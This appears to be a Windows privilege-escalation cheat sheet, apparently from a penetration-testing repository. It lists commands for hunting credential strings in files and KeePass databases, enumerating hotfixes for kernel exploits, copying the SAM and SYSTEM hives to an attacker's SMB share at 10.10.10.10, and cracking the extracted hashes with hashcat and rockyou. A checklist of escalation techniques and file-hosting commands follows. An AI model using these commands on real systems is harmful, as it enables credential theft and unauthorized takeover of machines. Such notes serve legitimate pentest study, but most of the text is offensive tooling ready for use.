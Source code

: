 ```
findstr /si 'cred' *.txt *.ps1 *.xml *.docx *.db *.kdbx


# Kernel Exploits
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
wmic qfe list
wmic qfe get Caption, Description, HotFixID, InstalledOn


# DLL Hijacking 
Check using ProcessMonitor (procmon)
set filters to "result contains not found" and "path ends with .dll"


# Mounted Disks
mountvol


# SAM
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
python3 creddump7/pwdump.py SYSTEM SAM
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt OR
impacket-secretsduimp -sam SAM -system SYSTEM LOCAL


# Start Up Apps
accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

- Group Privileges
- DLL Hijacking
- Unquoted Service Path
- Named Pipe
- Rewrite Service Binaries
- Change path of Service Binary
- RunAs
- Stored Passwords in unattended, sysprep, RDP, log, History or Config Files
- Startup Applications
- PrintSpoofer
- Service Exploits
- SAM and SYSTEM Readable Files
- Username as passwords, passwords as passwords, empty passwords
- Reused Passwords
- Check logs for passwords
- Check scripts and other applications for passwords

# Sharing Files

## Hosting
```
smbserver.py share . -smb2support
python -m SimpleHTTPServer 80 (Python 2)
python -m http.server 80 (Python 3)
FTP
Website
```
